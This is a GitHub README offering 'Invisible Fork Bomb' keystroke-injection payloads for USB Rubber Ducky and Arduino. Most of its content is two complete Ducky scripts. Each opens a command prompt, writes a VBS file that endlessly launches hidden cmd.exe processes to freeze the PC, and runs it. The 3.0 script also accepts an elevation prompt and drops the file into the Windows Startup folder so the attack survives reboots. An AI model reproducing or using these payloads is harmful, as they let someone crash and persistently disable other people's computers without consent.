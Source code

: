 # Invisible Fork Bomb for Arduino and Ducky
**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it adds the vbs to the startup folder.

**Author:** BlueArduino20

# Code for Ducky (2.0)

<pre><code>DELAY 1000
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
ENTER
</pre></code>

# Code for Ducky (V. 3.0) (It adds the file to the startup)

<pre><code>DELAY 1000
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_2.0.ino">Invisible_fork_bomb_2.0.ino<a>

# Code for Arduino (V. 3.0) (It adds the file to the startup)

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_3.0.ino">Invisible_fork_bomb_3.0.ino<a>

